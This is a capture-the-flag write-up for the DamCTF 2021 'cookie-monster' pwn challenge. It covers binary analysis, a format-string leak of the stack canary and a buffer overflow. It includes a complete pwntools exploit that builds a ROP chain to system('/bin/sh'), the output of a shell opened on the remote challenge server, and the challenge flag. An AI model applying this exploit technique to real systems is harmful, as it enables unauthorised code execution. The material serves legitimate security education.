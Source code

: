 # DamCTF 2021 

## pwn/cookie-monster

> Do you like cookies? I like cookies.
> 
> `nc chals.damctf.xyz 31312`
>
> Author: BobbySinclusto
> 
> [`cookie-monster`](cookie-monster)

Tags: _pwn_ _x86-64_ _bof_ _remote-shell_ _stack-canary_ _format-string_ _rop_


## Summary

Leak stack canary with format string to enable buffer overflow and ROP FTW.

**UPDATE: Added detail on how to compute the location of the canary.**


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

No PIE, Partical RELRO = Easy ROP, easy GOT overwrite.  x86 (32-bit) makes for even easier ROP (all args passed on stack).


### Decompile with Ghidra    

```c
void bakery(void)
{
  int in_GS_OFFSET;
  char local_30 [32];
  int local_10;
  
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  printf("Enter your name: ");
  fgets(local_30,0x20,stdin);
  printf("Hello ");
  printf(local_30);
  puts("Welcome to the bakery!\n\nCurrent menu:");
  system("cat cookies.txt");
  puts("\nWhat would you like to purchase?");
  fgets(local_30,0x40,stdin);
  puts("Have a nice day!");
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
}
```

A couple of vulns here; first there's `printf(local_30)` (no format string), we'll use this to leak the canary, and second there's `fgets(local_30,0x40,stdin)`, where `fgets` is reading in up to `0x40` bytes into a buffer that is `0x30` (`local_30`) bytes from the return address on the stack.  IOW, we have 16 bytes (15 really since fgets will replace the last byte with null) to write out a ROP chain.

If you check the binary there's some freebies in there to make this a lot easier.  First `system` is in the GOT, so we do not need to leak libc, and second `strings cookie-monster | grep bin/sh` returns, well, `/bin/sh`.

We'll only need 12 bytes for a ROP chain.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./cookie-monster')

if args.REMOTE:
    p = remote('chals.damctf.xyz', 31312)
else:
    p = process(binary.path)

p.sendlineafter(b': ',b'%15$p')
p.recvuntil('Hello ')
canary = int(p.recvline().strip(),16)
log.info('canary: ' + hex(canary))

payload  = b''
payload += (0x30 - 0x10) * b'A'
payload += p32(canary)
payload += (0x30 - len(payload)) * b'B'
payload += p32(binary.plt.system)
payload += p32(0)
payload += p32(binary.search(b"/bin/sh").__next__())

p.sendlineafter(b'?\n',payload)
p.interactive()
```

To leak the canary use the format string `%15$p`.

_Why `%15$p`?_

This can be easily computed once you know the offset.  Just add `(0x30 - 0x10) / 4` to the offset.

From the decompile output above `local_30` (buffer) is `0x30` bytes from the base of the stack frame, and `local_10` (canary) is `0x10` bytes from the base of the stack frame (these are Ghidra conventions).  `(0x30 - 0x10)` is the distance from the start of the buffer to the canary.  `/4` computes the number of stack lines for x86 (32-bit).

To get the [buffer] offset, send `%xx%p` where `xx` is `01`, `02`, ... until you get a match, once there's a match, then you have the offset, e.g.:

```bash
# ./cookie-monster
Enter your name: %6$p
Hello 0xff938f78
```

Not a match.

```bash
# ./cookie-monster
Enter your name: %7$p
Hello 0x70243725
```

`0x70243725` is little endian ASCII hex for `%7$p`, a match, therefore the offset is 7.

`7 + (0x30 - 0x10) / 4 = 15`

With canary in hand, constructing the 32-bit ROP chain is just:

```
location of system
return address (we do not plan on returning here, so any value is fine)
first arg to system (location of string /bin/sh)
```


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/damctf2021/cookie-monster/cookie-monster'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to chals.damctf.xyz on port 31312: Done
[*] canary: 0xb063cf00
[*] Switching to interactive mode
Have a nice day!
$ cat flag
dam{s74CK_c00k13S_4r3_d3L1C10Us}
```
